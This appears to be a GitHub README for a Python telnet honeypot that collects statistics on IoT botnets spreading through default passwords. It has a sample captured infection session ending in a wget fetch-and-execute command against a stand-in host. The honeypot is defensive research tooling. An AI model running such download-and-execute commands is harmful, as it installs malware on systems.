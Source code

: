 # Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architekure

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honey.py
	
## Server

	python backend.py

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit 

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)

